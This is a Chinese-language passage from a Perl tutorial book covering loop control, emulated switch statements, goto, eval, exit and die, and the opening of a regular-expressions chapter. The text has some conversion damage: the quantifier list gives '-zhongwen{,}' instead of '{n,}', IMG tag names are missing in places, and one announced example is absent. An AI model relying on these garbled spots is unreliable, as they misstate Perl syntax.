在 Perl 中，你可以从标记循环的内部直接开始该循环的下一次迭代（与 C 不同，在 C 中你只能跳到下一个外部循环）。例如，在标记为 **INNER** 的内层循环深处，我们可以直接跳到外层循环 **OUTER** 的下一次迭代：

```
OUTER: for ($outer = 0; $outer < 10; $outer++) {

            $result = 0;

INNER:      for ($inner = 0; $inner < 10; $inner++) {
                $result += $inner * $outer;
                next OUTER if $inner == $outer;
                print "$result\n";
            }
        }
```

## 使用 last 命令结束循环

如果在循环中发生你认为是致命的错误怎么办？或者，发生其他情况，比如到达输入文件的末尾，让你想结束循环？你能用 Perl 中的循环命令结束循环吗？

是的，你可以。**last** 命令会立即退出当前循环（就像 C 的 **break** 语句）。请注意，如果你有一个 **continue** 块，该块中的代码不会被执行。

考虑这个例子，我使用 **while** 循环来去除文件中的前导注释，一旦出现不以 # 开头的行，就用 last 命令退出 **while** 循环（有关字符串匹配的更多详细信息，请参见第 6 章）：

```
# Strip this line
# Strip this line too
COMMENTS: while (<>) {
    last COMMENTS if !/^#/;
}
do {
    print;
} while (<>)
```

如果我在该文件本身上运行，我会得到这个结果：

```
%strip.pl strip.pl
COMMENTS: while (<>) {
    last COMMENTS if !/^#/;
}
do {
    print;
} while (<>)
```

你甚至可以用 **last** 命令结束像 **for** (;;) 这样的无限循环：

```
FOREVER: for (;;) {

    chomp($line = <>);

    if ($line eq 'q') {
        last FOREVER;
    } else {
        print "You typed: $line\n";
    }
}
```

*Now*
*You typed: Now*
*is*
*You typed: is*
*the*
*You typed: the*
*time*
*You typed: time*
*q*

正如 C 程序员（使用 **break**）所知道的，使用像 **last** 这样的命令来结束循环可能非常有用。但是，你只应在必要时使用此命令。像其他循环命令一样，如果过度使用，它会使代码难以阅读（并且结构混乱）。

## 使用 **redo** 循环命令重新执行迭代

在 Perl 中使用循环命令可以变得相当巧妙。我们已经看到了 **next** 和 **last** 循环命令，但你也可以使用 **redo**，它允许你重新执行循环的当前迭代。这个命令在某些情况下很方便（尽管这些情况似乎很少出现，以至于你看到 **redo** 的使用并不频繁）。

**redo** 实际上做什么？这个命令会重新启动循环的当前迭代，*而不会*再次评估循环的条件。如果存在 **continue** 块，它也不会被执行。

那么，你如何使用 **redo** 呢？**redo** 的一个用途是帮助解析输入。例如，假设你想执行名为 `code.pl` 的文件中的代码，该文件使用下划线 `_` 作为行续接字符（这在 Perl 中是非法的，但在其他语言中是合法的）：

```
for ($loop_index = 0; _
    $loop_index <= 10; _
    $loop_index++) { _
    print $loop_index; }
```

你可以使用以下代码来读取 `code.pl`，从多行语句中组装出单个语句，并使用 **eval** 语句来评估该语句（有关 **eval** 的更多详细信息，请参见本章后面的“使用 **eval** 函数执行代码”主题）：

```
while (<>) {
    if (s/_//g) {     # 匹配并移除下划线
        $_ .= <>;
        redo;
    }
    eval;
}
```

如果你将此脚本放在一个名为 *evaluate* 的文件中，你可以这样执行 `code.pl` 中的代码：

```
%evaluate code.pl
```

*012345678910*

这就是你使用 **redo** 的那种情况。当你发现自己处于必须在继续循环其余部分之前再次循环的情况时，请考虑使用 **redo**。


## 创建 **switch** 语句

“好吧，”编程正确性沙皇说道，“现在我抓住你了。那 **switch** 语句呢？在 Perl 中，你不得不使用冗长的 **if**、**elsif** 和 **else** 语句来进行多次测试。为什么 Perl 没有像 C 那样的 **switch** 语句？”“你说得对，”你说，“Perl 确实没有 **switch** 语句。”沙皇得意地笑了。“但是，”你说，“你可以*制造*一个。”

**switch** 语句的工作原理是将一个测试值与多个其他值进行匹配，并执行与匹配测试值的值（如果有）相关联的代码。

Perl 没有内置的 **switch** 语句，但你可以使用代码块来构建一个。因为一个代码块的工作方式与一个只执行一次的循环完全相同，所以你实际上可以使用循环控制语句（如 **last**）来退出代码块。

考虑这个例子，其中我使用短路 **&&** 运算符（仅在第一个操作数为真时才执行第二个操作数）创建了一个 **switch** 语句，并使用模式匹配（有关模式匹配的更多详细信息，请参见第 6 章）将 **$_** 中的值与用户可能输入的各种字符串（"run"、"stop"、"connect" 和 "find"）进行比较：

```
print "Enter command: ";

while(<>) {
SWITCH: {
        /run/ && do {
                $message = "Running\n";
                last SWITCH;
        };

        /stop/ && do {
                $message = "Stopped\n";
                last SWITCH;
        };

        /connect/ && do {
                $message = "Connected\n";
                last SWITCH;
        };

        /find/ && do {
                $message = "Found\n";
                last SWITCH;
        };
        /q/ && do {
                exit;
        };
DEFAULT:    $message = "No match.\n";
}

print $message;
print "Enter command: ";
}
```

如果用户输入这些字符串之一——"run"、"stop"、"connect" 或 "find"——代码将打印相应的消息；如果用户输入 "q"，代码将退出（使用 Perl 的 **exit** 语句）：

```
%perl switch.pl

Enter command: run
Running
Enter command: find
Found
Enter command: stop
Stopped
Enter command: restart
No match.
Enter command: q
```

让我向你展示另一个标准的 Perl 技巧：你可以使用 **哈希** 而不是创建 **switch** 语句，使用 **哈希** 中的键作为要测试的值，如下所示：

```
$hash{run}     = "Running\n";
$hash{stop}    = "Stopped\n";
$hash{connect} = "Connected\n";
$hash{find}    = "Found\n";

print "Enter command: ";

while(<>) {

    chomp;

    if ($_ eq 'q') {
        exit;
    } elsif (exists($hash{$_})) {
        print $hash{$_};
    } else {
        print "No match.\n";
    }

    print "Enter command: ";
}
```

此代码的工作方式与前面的自定义 **switch** 语句相同：

```
%perl switch2.pl
Enter command: run
Running
Enter command: find
Found
Enter command: stop
Stopped
Enter command: restart
No match.
Enter command: q
```

## 使用 **goto**

Perl 确实包含一个 **goto** 语句，我将其包含在内主要是为了完整性，因为使用 **goto** （通常）不是一个好主意，特别是因为 Perl 有一套很好的循环退出命令。依赖 **goto** 会创建难以跟踪的跳转，因为它们突然将执行转移到一个全新的上下文。

**goto** 的三种形式如下：

```
goto LABEL
goto EXPR
goto &NAME
```

第一种形式，**goto *LABEL***，将执行转移到标记为 ***LABEL*** 的语句。第二种形式，**goto *EXPR***，期望 ***EXPR*** 求值为一个它可以跳转到的标签，而最后一种形式，**goto &NAME**，用于子程序。

在这个例子中，我使用 **goto** 来形成一个循环，反复读取输入，直到用户输入 "exit"：

```
INPUT: $line = <>;
if ($line !~ /exit/) {print "Try again\n"; goto INPUT}
```

## 使用 **eval** 函数执行代码

> 好吧，编程正确性沙皇放下你的 Perl 代码，叹了口气，说道，我看到你可以用 Perl 做你在 C 中能做的大部分事情。那么，告诉我，沙皇说，有什么是你在 Perl 中能做而不能在 C 中做的吗？当然，你说，有很多事情。例如，你可以编写一条 Perl 语句来执行其他 Perl 语句。沙皇说，什么？

你可以使用 **eval** 语句来执行 Perl 代码；这是一个功能极其强大且流行的语句。通常，它看起来像这样：

```
eval EXPR
eval BLOCK
```

请注意，Perl 中有两种形式的 **eval**：一种执行表达式 **EXPR**，另一种执行整个代码块 **BLOCK**。当你希望每次执行表达式中的代码时都重新解析代码时，你会使用 **eval** 的第一种形式——**eval EXPR**。如果省略 **EXPR**，**eval** 将求值 **$_**。当你使用第二种形式的 **eval**——**eval BLOCK**——**BLOCK** 中的代码仅在解析其余代码时被解析一次。通常当你想要捕获错误时，你会使用这种形式的 **eval**，因为 **eval** 可以处理那些对你的程序来说是致命的错误。**eval** 语句将任何错误消息放入预定义的 Perl 变量 **$@** 中。

在这两种情况下，**eval** 返回的值都是 **eval** 执行的代码中最后一条语句的值。

这是一个示例，展示如何使用 **eval** 来执行 **print Hello\n**

```
eval "print \"Hello\\n\"";
```

*Hello*

你可以将要执行的代码存储为字符串：

```
$string = "print \"Hello\\n\"";
eval $string;
```

*Hello*

你也可以执行多个语句——实际上，整个脚本：

```
$string = "print \"Hello \"; print \"there\\n\"";
eval $string;
```

*Hello there*

这个例子展示了如何使用 **eval** 的块形式来完成同样的事情：

```
eval {print "Hello ";
    print "there\n"}
```

*Hello there*

让我也展示一下如何交互式地执行语句，只要这些语句不超过一行：

```
while (<>) {eval;}
```

最后，这个例子展示了如何使用 **eval** 来处理那些原本会致命的错误。（这是 **eval BLOCK** 形式 **eval** 的主要用途——提供一种机制来捕获运行时错误。）请注意程序打印了错误消息，并且这不是一个致命错误：

```
$x = 1;
$y = 0;
eval {$result = $x / $y};
print "eval says: $@" if $@;
```

*eval says: Illegal division by zero at divider.pl line 3.*

## 使用 **exit** 语句结束程序

那么，当你想要结束程序时，该怎么做呢？你可以使用 Perl 的 **exit** 语句来结束程序：

```
exit EXPR
```

此语句将 **EXPR**（如果指定）作为程序的退出码返回。（你可以将 **EXPR** 设置为 0 表示成功，1 表示某种错误；它们是唯一被普遍认可的设置。）如果省略 **EXPR**，**exit** 将返回 0。

在这个例子中，当用户输入 "y" 时，我结束程序：

```
print "Please type the letter y\n";
while (<>) {
    chop;
    if ($_ ne 'y') {
        print "Please type the letter y\n";
    } else {
        print "Do you always do what you're told?\n";
        exit;
    }
}
```

我们在几个话题之前看到过这个例子；这里，如果用户输入 "q"，我们退出程序：

```
$hash{run}     = "Running\n";
$hash{stop}    = "Stopped\n";
$hash{connect} = "Connected\n";
$hash{find}    = "Found\n";

print "Enter command: ";

while(<>) {

    chomp;

    if ($_ eq 'q') {
        exit;
    } elsif (exists($hash{$_})) {
        print $hash{$_};
    } else {
        print "No match.\n";
    }

    print "Enter command: ";
}
```

另请参阅接下来的 **die** 语句。

## 使用 **die** 语句

如果你只想结束程序，**exit** 语句很好，但如果出现问题，并且你想在结束程序时显示一条错误消息，该怎么办呢？你可以使用 **die** 函数，其一般工作方式如下：

```
die LIST
```

此函数将 **LIST** 的值打印到 **STDERR** 并停止程序，返回 Perl 特殊变量 **$!** 的当前值。在 **eval** 语句内部，错误消息被放入特殊变量 **$@**，并且 **eval** 语句被终止。


在下面这个示例中，我尝试打开一个不存在的文件（在 Perl 中，你几乎总会在 **open** 语句的末尾看到一个 **die** 语句）：

```
$filename = "nonexist.pl";
open FileHandle, $filename or die "Cannot open $filename\n";
```

该脚本最终输出以下错误信息：

```
Cannot open nonexist.pl
```

另见前一主题中的 **exit** 语句。

## 第 6 章

## 正则表达式

| 如果你需要快速了解： | 请参阅： |
| --- | --- |
| 创建正则表达式：概述 | 236 |
| 正则表达式的组成部分 | 237 |
| 创建正则表达式：字符 | 237 |
| 匹配任意字符 | 239 |
| 创建正则表达式：字符类 | 240 |
| 创建正则表达式：备选匹配模式 | 241 |
| 创建正则表达式：量词 | 242 |
| 量词的"贪婪性" | 244 |
| 创建正则表达式：断言 | 244 |
| 创建正则表达式：引用先前匹配的反向引用 | 246 |
| 创建正则表达式：正则表达式扩展 | 248 |
| 使用前向断言和后向断言 | 249 |
| 使用无捕获括号 | 250 |
| 为 **m//** 和 **s///** 使用修饰符 | 250 |
| 使用 **tr///** 翻译字符串 | 252 |
| 为 **tr///** 使用修饰符 | 253 |
| 匹配单词 | 254 |
| 匹配行首 | 255 |
| 匹配行尾 | 256 |
| 检查数字 | 258 |
| 检查字母 | 259 |
| 查找多个匹配 | 260 |
| 查找第 *n* 次匹配 | 262 |
| 使用 **pos** 函数 | 263 |

| 如果你需要快速了解： | 请参阅： |
| --- | --- |
| 从上一次匹配结束处开始搜索：`\G` | 263 |
| 在多行文本中进行匹配 | 264 |
| 使用 **s** 修饰符 | 264 |
| 使用 **m** 修饰符 | 264 |
| 使用不区分大小写的匹配 | 266 |
| 提取子字符串 | 267 |
| 在正则表达式中使用函数调用和 Perl 表达式 | 267 |
| 查找重复单词 | 268 |
| 降低量词的贪婪性：最小匹配 | 269 |
| 去除前导和尾随空白 | 270 |
| 使用断言进行前瞻和后顾 | 270 |
| 编译正则表达式 | 272 |
| 使用 **qr** 创建已编译的正则表达式 | 273 |

### 深入探讨

Perl 在处理文本方面尤其出色，事实上，它最初就是为此而开发的（这也是许多程序员至今仍选择使用它的原因）。正则表达式是 Perl 文本处理的重要组成部分，多年来，这个主题已经变得非常庞大。

正则表达式让你能够进行模式匹配（即将字符串与一个测试字符串进行比较，该测试字符串称为*模式*，可能包含通配符和其他特殊字符）以及文本替换，提供了一种在程序控制下操纵文本的强大方式。对于有经验的程序员来说，这里有一套非常强大的工具可用。

另一方面，毫无疑问，在 Perl 中使用正则表达式是令程序员最感到畏惧的领域之一。即使是相对简单的正则表达式也可能需要花点时间来理解，比如下面这个例子，我用它来匹配 HTML **<A>** 或 **** 标签以及直到并包含对应闭合标签 **</A>** 或 **</IMG>** 的所有文本：

```
$text = "<A>Here is an anchor.</A>";
if ($text =~ /<(IMG|A)>[\w\s\.]+<\/\1>/i)
    {print "Found an image or anchor tag.";}
```

*Found an image or anchor tag.*

在本章中，我将尽量把这个 Perl 中较为晦涩的主题讲清楚。你经常会遇到这些内容，因此掌握这个主题非常重要。

### 使用正则表达式

你使用两个字符串处理运算符来操作正则表达式：**m//**（模式匹配运算符）和 **s///**（替换运算符）。本章还会介绍另一个密切相关的运算符——翻译运算符 **tr///**，它执行直接的字符翻译，但不使用正则表达式。

### m// 运算符

**m//** 运算符尝试将你指定的模式与 **$_** 中的文本进行匹配（默认情况下）。例如，下面我在用户输入的文本中搜索字符串 **exit**（第二个斜杠后的 **i 修饰符**使模式匹配不区分大小写）；如果在 **$_** 中找到了 **exit**，**m//** 返回真：

```
while(<>) {
    if(m/exit/i) {exit;}
}
```

你也可以使用 **=~** 运算符来指定 **m//** 运算符搜索的字符串；这里我指定该运算符搜索名为 **$line** 的标量变量，而非 **$_**。这段代码不会改变 **$line** 的值；搜索只是在找到 **exit** 时返回真：

```
while($line = <>) {
    if($line =~ m/exit/i) {exit;}
}
```

你可以改用 **!~** 运算符来反转比较的逻辑结果，它对 **=~** 返回的值取反。

实际上，由于 **m//** 运算符使用得非常频繁，你甚至可以省略 **m** 部分，这是 Perl 的一个快捷方式，大多数程序员至少偶尔会用到：

```
while($line = <>) {
    if($line =~ /exit/i) {exit;}
}
```

与其他 Perl 运算符一样，如果你不喜欢斜杠，可以使用自己的分隔符，但这种情况下你必须使用 **m**：

```
while($line = <>) {
    if($line =~ m{exit}i) {exit;}
}
```

在标量上下文中，**m//** 返回真或假。在列表上下文中，当你使用 **g** 修饰符使搜索成为全局搜索时，**m//** 返回所有匹配项的列表，如下面的例子所示，我创建了一个数组 **@a**，用于存放 **$_** 中所有的小写单词：

```
$_ = "Here is the text";
@a = m/\b[^A-Z]+\b/g;
print "@a";
```

*is the text*

我们将在本章中逐步了解这个表达式各部分的工作方式。（在这个例子中，我使用 **\b** 匹配单词边界，**[^A-Z]** 匹配任何非大写字符，**+** 确保有多个匹配，**g** 修饰符使搜索成为全局搜索，从而找到所有连续的匹配项。）

> *提示：在列表上下文中使用 **m//** 且不带 **g** 修饰符时，你可以获取括号中子表达式的匹配列表。更多信息请参阅"即时解决方案"部分的"创建正则表达式：引用先前匹配的反向引用"主题。*

你还可以在 **m//**（以及即将介绍的 **s///**）中使用变量，它们会被插值处理，如下面这个示例：

```
$s = "Here is the text";
$match = "text";
if ($s =~ m/$match/) {
    print "Found the text.";
}
```

*Found the text.*

使用 **m//** 进行匹配可能是所有正则表达式操作中最常见的，它为你提供了一种简单的方式来搜索子字符串，正如我们将看到的，还可以提取子字符串。仅次于 **m//** 的下一个最常用运算符是 **s///**。

### s/// 运算符

**s///** 运算符让你用一个字符串替换另一个字符串。例如，下面我将字符串 **young** 替换为字符串 **old**：

```
$text = "Pretty young.";
$text =~ s/young/old/;
print $text;
```

*Pretty old.*

该运算符同样默认使用 **$_**，并且和 **m//** 运算符一样，你不必使用斜杠，只要在表达式中使用一对相同的字符作为分隔符即可，比如下面这个例子中我用 | 代替 /：

```
$text = "Pretty young.";
$text =~ s|young|old|;
print $text;
```

*Pretty old.*

你甚至可以像这样使用圆括号：

```
$text = "Pretty young.";
$text =~ s(young)(old);
print $text;
```

*Pretty old.*

还要注意，**m//** 和 **s///** 都从左边开始匹配，如下面这个例子：

```
$text = "Pretty young, but not very young.";
$text =~ s/young/old/;
print $text;
```

*Pretty old, but not very young.*

在这个例子中，代码只进行了一次替换，但 **m//**、**s///** 和 **tr///** 运算符都附带一组修饰符——相当于开关的单个字符——如果我在这里使用 **g** 修饰符，**s///** 运算符将进行全局替换：

```
$text = "Pretty young, but not very young.";
$text =~ s/young/old/g;
print $text;
```

*Pretty old, but not very old.*

本章要介绍的三个运算符中的最后一个就是 **tr///**。

### tr/// 运算符

除了 **m//** 和 **s///** 运算符外，Perl 还支持 **tr///** 运算符（与 **y///** 运算符相同），它让你可以进行逐字符翻译。默认情况下，**tr///** 对 **$_** 操作，如下面这个例子所示，我将用户输入的字母 *o* 翻译为字母 *i*：

```
while (<>) {
    tr/o/i/;
    print;
}
```

当用户输入"Tony"时，该脚本可能如下运行：

```
%perl o2i.pl
```

*Tony*
*Tiny*

你可以像这样使用 **=~** 运算符指定要处理的字符串，其中我将字符串 **$text** 中所有字母 *o* 替换为字母 *i*：

```
$text = "His name is Tom.";
$text =~ tr/o/i/;
print $text;
```

*His name is Tim.*

你也可以使用 **tr///** 来删除字符，方法是使用 **d** 修饰符。在这个例子中，我从 **$text** 中移除字符 **\r**，这会将 DOS 字符串（使用 **\r\n** 作为行结束序列）转换为 Unix 字符串（只使用 **\n**）：

```
$text =~ tr/\r//d;
```

本章我们将研究这些运算符，然后是 **m//**、**s///** 和 **tr///**——而我们才刚刚触及皮毛。是时候开始创建正则表达式了，它们将让我们直接支持字符串匹配和替换。

## 立即解决方案

## 创建正则表达式：概述

「正则表达式？」新手程序员问道，「从来没听说过。」「它们是什么？」「嗯，」你说，「最好拉把椅子坐下。」

你使用正则表达式来创建匹配较大字符串中子字符串的模式，并将正则表达式传递给 **m//** 和 **s///** 运算符，例如在这种情况下，我使用正则表达式 `\b([A-Za-z]+)\b` 来匹配文本字符串中的单词：

```
$text = "Perl is the subject.";
$text =~ /\b([A-Za-z]+)\b/;
print $1;
```

*Perl*

在这个例子中，表达式 `(\b([A-Za-z]+)\b)` 包含分组元字符 **(** 和 **)**、单词边界元字符 **\b**、字符类 **[A-Za-z]**（匹配所有大小写字母）和一个量词 **+**，它指定我们需要匹配一个或多个字符。**(** 和 **)** 使 Perl 记住匹配结果，我可以在前面的代码中将其引用为 **$1**，其中我正在打印字符串中的第一个单词。

因为正则表达式可能会变得复杂（事实上，正则表达式在 Perl 中形成其自己的编程子语言），我将在本章中花时间逐步分解它们。

## 正则表达式的组成部分

要剖析正则表达式，我们需要知道它们由哪些部分组成。一般来说，正则表达式可以由以下部分组成：

-   字符
-   字符类
-   替代匹配模式
-   量词
-   断言
-   反向引用
-   正则表达式扩展

这些项目中的每一个都值得详细研究，我将在接下来的几个主题中依次介绍它们。在介绍了正则表达式的组成部分之后，我将在本章的其余部分中应用它们。

> 提示：因为正则表达式可能变得相当复杂，你可能想在 **eval** 语句中执行它们，这样你可以捕获错误。

| 相关解决方案： | 找到页码： |
| --- | --- |
| 使用 **eval** 函数执行代码 | 224 |

## 创建正则表达式：字符

新手程序员想知道用户是否输入了“quit”，如果是，就退出程序。“这个，”你说，“使用正则表达式很容易，因为你可以将特定字符或字符序列视为*字面量*；也就是说，你可以用它来匹配自身。”

在正则表达式中，任何单个字符都匹配自身，除非它是具有特殊含义的元字符（如 **$** 或 **^**）。例如，这是我检查用户是否输入“quit”，如果是，则 **exit** 的方法：

```
while(<>) {
    if(m/quit/) {exit;}
}
```

我可以通过检查确保“quit”是用户输入行的唯一内容来更正确地执行此操作（例如，确保如果用户输入“Don't quit!”之类的内容，我们不会做错事），这可以使用 **^** 和 **$** 元字符完成，并使用 **i** 修饰符使匹配不区分大小写：

```
while(<>) {
    if(m/^quit$/i) {exit;}
}
```

有关 **^** 和 **$** 的更多详细信息，请参阅主题“创建正则表达式：断言”；有关 **i** 修饰符的更多详细信息，请参阅主题“使用 **m//** 和 **s///** 的修饰符”。

## 第 6 章 正则表达式

除了普通字符外，Perl 还定义了以下可以在正则表达式中使用的特殊字符。请注意，你必须通过在字符前加反斜杠来*转义*这些字符：

-   \077—八进制字符
-   \a—警报（响铃）
-   \c[—控制字符
-   \D—匹配非数字字符
-   \d—匹配数字字符
-   \E—结束大小写修改
-   \e—转义
-   \f—换页符
-   \L—小写直到找到 \E
-   \l—将下一个字符小写
-   \n—换行符
-   \Q—引用（禁用）模式元字符直到找到 \E
-   \r—回车符
-   \S—匹配非空白字符
-   \s—匹配空白字符
-   \t—制表符
-   \U—大写直到找到 \E
-   \u—将下一个字符大写
-   \W—匹配非单词字符
-   \w—匹配单词字符（字母数字字符和“_”）
-   \x1—十六进制字符

特别注意强大的字符，例如 \w，它匹配单词字符，但也请注意 \w 只匹配一个字母数字字符，而不是整个单词。要匹配一个单词，你需要像这样使用 \w+。（+ 表示“一个或多个匹配”；有关如何使用 + 的更多详细信息，请参阅主题“创建正则表达式：量词”。）

```
$text = "Here is some text.";
$text =~ s/\w+/There/;
print $text;
```

> There is some text.

## 匹配任何字符

正则表达式中一个非常强大的字符是点（.）。这个字符匹配*任何*字符，除了换行符（尽管如果你对 **m//** 和 **s///** 使用 **s** 修饰符，点字符将匹配换行符；有关 **s** 修饰符的更多详细信息，请参阅本章后面的主题“使用 **m//** 和 **s///** 的修饰符”）。

例如，我可以像这样用星号（*）替换字符串中的所有字符，其中我使用 **g** 修饰符使替换操作全局生效（有关 **g** 修饰符的更多详细信息，请参阅主题“使用 **m//** 和 **s///** 的修饰符”）：

```
$text = "Now is the time.";
$text =~ s/./*/g;
print $text;
```

***************

如果你真的想匹配一个点怎么办？点这样的字符在正则表达式中被称为*元字符*（元字符是 \ | ( ) [ { ^ $ * + ? .），你可以在任何元字符前加上反斜杠，以确保它被解释为字面量而不是元字符。在这个例子中，我使用 ^，它匹配行的开头，让用户知道他们不应该以句点开始句子（实际上是行）：

```
$line = ".Hello!";

if ($line =~ m/^\./) {
    print "Shouldn't start a sentence with a period!";
}
```

*Shouldn't start a sentence with a period!*

在下一个例子中，我从 C 代码中删除注释，通过使用 * 量词和 . 来匹配分隔符 /* 和 */ 之间的所有字符，如下所示（有关 * 量词的更多详细信息，请参阅本章后面的主题“创建正则表达式：量词”）：

```
$code = "count++; /* Increment count */";

$code =~ s/\/\*.*\*\///g;

print $code;

count++;
```

注意前面表达式中出现的斜杠数量（在 Perl 中称为 Leaning Toothpick Syndrome，LTS）。你可以通过使用不同的分隔符（例如 !）来使表达式更容易阅读：

```
$code = "count++; /* Increment count */";
$code =~ s|/\*.*\*/||g;

print $code;

count++;
```

你还可以使用 **quotemeta** 函数在每个非字母数字字符前添加反斜杠。考虑这个例子；这里，两行产生相同的字符串：

```
$text = "I\ said \"Hello\.\"";
$text = quotemeta('I said "Hello."');
```

## 创建正则表达式：字符类

“好吧，”新手程序员问道，“如果我不只是想匹配一个字符怎么办？如果我想查找一个字符*集合*中的一个怎么办？例如，如果我想搜索字符串中的任何元音字母怎么办？”“没问题，”你说，“使用字符类。”

你可以将字符分组到一个字符类中，该类将匹配其中的任何单个字符。你用方括号 [ 和 ] 将字符类括起来。你还可以使用 - 字符指定字符*范围*。（请注意，如果你想将 - 指定为要搜索的实际字符，请转义它为 \-。）

在这个例子中，一些代码在字符串中搜索元音字母：

```
$text = "Here is the text.";
if ($text =~ /[aeiou]/) {print "Yep, we got vowels.\n";}

Yep, we got vowels.
```

在下一个例子中，我通过搜索 **[A-Za-z]+**（**+** 表示“一个或多个字符”——有关如何使用 + 的更多详细信息，请参阅本章后面的主题“创建正则表达式：量词”）来搜索字符串中的第一个单词，并替换该单词：


## 创建正则表达式：替代匹配模式

“如果我想匹配‘quit’或‘exit’中的任意一个怎么办？” 这种情况下，你可以使用替代匹配模式。

什么是替代匹配模式？它意味着你可以使用 `|` 分隔符来为模式指定一系列备选项。例如，你可以这样检查用户是否输入了“exit”、“quit”或“stop”：

```
while(<>) {
    if(m/exit|quit|stop/) {exit;}
}
```

通常，将备选项放在圆括号内，可以清晰地界定其起始和结束位置，避免周围的字符被无意中纳入备选项。这里，`^` 和 `$` 元字符分别匹配行的开头和结尾：

```
while(<>) {
    if(m/^(exit|quit|stop)$/) {exit;}
}
```

替代项会从左到右进行检查，因此第一个匹配的替代项将被使用。

> **提示：** 请注意，`|` 在方括号内被视为普通字符，所以如果你写 **[Tim|Tom|Tam]**，实际上你匹配的是 **[Tioam]**。通过避免不必要的替代，可以大大提高正则表达式的效率。因为交替结构中的每个备选项都必须被检查，你的模式匹配操作可能会突然变得耗时。请谨慎使用交替功能。

## 创建正则表达式：量词

你可以使用量词来指定一个模式必须匹配特定的次数。例如，我在这里使用 `+` 量词来匹配并替换字母 `e` 出现一次或多次的情况：

```
$text = "Hello from Peeeeeeeeeeeeel.";
$text =~ s/e+/e/g;
print $text;
```

*Hello from Perl.*

`+` 量词表示“一个或多个”。

那么有哪些量词可用呢？这里我列出了所有 Perl 量词：

- `*`—匹配零次或多次
- `+`—匹配一次或多次
- `?`—匹配一次或零次
- `{n}`—匹配 n 次
- `-zhongwen{,}`—匹配至少 n 次
- `{n,m}`—匹配至少 n 次，但不超过 m 次

下面是我们之前见过的另一个例子；在这个例子中，我使用 `+` 量词匹配 `$_` 中所有小写的单词，并将它们存储在一个新的数组 `@a` 中：

```
$_ = "Here is the text";
@a = m/\b[^A-Z]+\b/g;
print "@a";
```

is the text

除了 `+`，我还使用了 `\b` 匹配单词边界，`[^A-Z]` 匹配任何非大写字母的字符，以及 `g` 修饰符使搜索变为全局搜索，从而找到所有连续的匹配项。

在下一个例子中，我确保用户输入的行至少有 20 个字符：

```
while (<>) {
    if(!m/.{20,}/) {print "Please type longer lines!\n";}
}
```

我们在本章前面讨论点（`.`）匹配任何字符时见过下一个例子。在这个例子中，我删除 C 代码中的注释，通过使用 `*` 量词（配合 `g` 修饰符，使 `s///` 全局生效，即作用于字符串中的所有匹配项）匹配分隔符 `/*` 和 `*/` 之间的所有字符：

```
$code = "count++; /* Increment count */";
$code =~ s/\/\*.*\*\///g;
print $code;
```

count++;

请注意，量词默认是“贪婪”的，这意味着它们会尝试匹配尽可能长的内容，只要是从当前搜索位置开始的有效匹配。接下来我将探讨这具体意味着什么。

## 量词的“贪婪性”

Perl 中的“贪婪性”是什么意思？考虑这个例子：假设你想将文本 “That is some text, isn't it?” 更改为 “That's some text, isn't it?”，方法是将 “That is” 替换为 “That's”。你可能会尝试这样写，搜索任意数量的字符后跟 “is”：`.*is`：

```
$text = "That is some text, isn't it?";
$text =~ s/.*is/That's/;
print $text;
```

问题在于量词是贪婪的，会尽可能匹配更多的内容，这意味着 Perl 将使用 `.*is` 匹配到文本中最后一个 “is” 为止的所有字符。上述代码的结果如下：

*That'sn't it?*

要了解如何让量词不那么贪婪，请参阅本章后面的“让量词不那么贪婪：最小匹配”。

使用量词的正则表达式匹配也可能涉及一个称为*回溯*的过程。为了使正则表达式匹配成功，整个表达式都必须匹配，而不仅仅是部分。如果包含量词的模式开头匹配成功，但导致模式的后续部分失败，Perl 会备份并从开头重新开始（这就是为什么这个过程被称为回溯）。

> **提示：** 不必要的回溯是时间的主要浪费，因此在设计正则表达式及其要处理的文本时，请牢记这一点。

## 创建正则表达式：断言

你使用断言——也称为*锚点*——来匹配字符串中的某些条件，而不是实际的数据。请注意，有效的 Perl 断言是*零宽度*的；在 Perl 正则表达式中，这意味着它们不会扩展匹配字符串的长度（即，你用它们来匹配文本中的某些条件，而不是特定字符）。以下是有效的 Perl 断言：

- **^**—匹配行的开头
- **$**—匹配行的结尾（或结尾换行符之前）
- `\A`—仅匹配字符串的开头
- `\B`—匹配非单词边界
- `\b`—匹配单词边界
- `\G`—仅匹配上一次 **m//g** 离开的位置（仅与 **/g** 配合使用）
- `\Z`—仅匹配字符串的结尾，或结尾换行符之前
- `\z`—仅匹配字符串的结尾
- `(?= EXPR)`—如果 *EXPR* 接下来会匹配，则匹配
- `(?! EXPR)`—如果 *EXPR* 接下来不会匹配，则匹配
- `(?<=EXPR)`—如果 *EXPR* 之前会匹配，则匹配
- `(?<!EXPR)`—如果 *EXPR* 之前不会匹配，则匹配

> **提示：** 关于以 `?` 开头的断言（如 `(?= EXPR)`）的更多信息，请参阅“创建正则表达式：正则表达式扩展”。

最常用的断言之一是 `\b`，它匹配单词边界。下一个例子展示了如何使用单词边界匹配一个单词——文本中的第一个单词（参阅本章后面的“匹配单词”部分）：

```
$text = "Here is some text.";
$text =~ s/\b([A-Za-z]+)\b/There/;
print $text;
```

*There is some text.*

行首和行尾断言也非常重要。在这个例子中，如果用户在一行中输入了“yes”——并且仅仅是“yes”——我通过匹配行首（使用 `^`）和行尾（使用 `$`）来打印一条消息：

```
while(<>) {
    if(m/^(yes)$/) {print "Thank you for being agreeable."}
}
```

> **提示：** 关于匹配行首和行尾的更多信息，请参阅本章后面的“匹配行首”和“匹配行尾”。


## 创建正则表达式：引用先前匹配的反向引用

新手程序员叹了口气。"我觉得我快要超出正则表达式的能力范围了，"新手程序员说。你说："正则表达式几乎无所不能，包括处理你的所得税。有什么问题吗？"新手程序员说："我正在尝试匹配HTML标签，我必须确保闭合标签，比如 **\</A\>**，与开始标签，比如 **\<A\>.** 匹配。" "完全没问题，"你说，"使用反向引用。"

有时，能够在同一个正则表达式中引用先前的匹配会非常有价值。就像新手程序员的情况一样，假设你想处理HTML，需要确保你匹配的是从开始标签到对应闭合标签的文本，比如 **\<A\>** 到 **\</A\>**。你可以通过数字加反斜杠（如 **\1**、**\2**、**\3** 等）在同一模式中引用先前的匹配。表达式 **\1** 代表第一个匹配，**\2** 代表下一个，以此类推。

这段代码运用了该原则，同时匹配 **\<A\>** 和 **\** 标签：

```
$text = "<A>Here is an anchor.</A>";
if ($text =~ /<(IMG|A)>[\w\s\.]+<\/\1>/i)
    {print "Found an image or anchor tag.";}
```

> Found an image or anchor tag.

你也可以通过数字加 **$** 前缀（例如 **$1**、**$2**、**$3** 等）在模式*外部*引用括号中的匹配。在这个例子中，我使用 **$1** 形式的反向引用将单词转换为缩写：

```
$name = "Anonymous Perl Programmers";
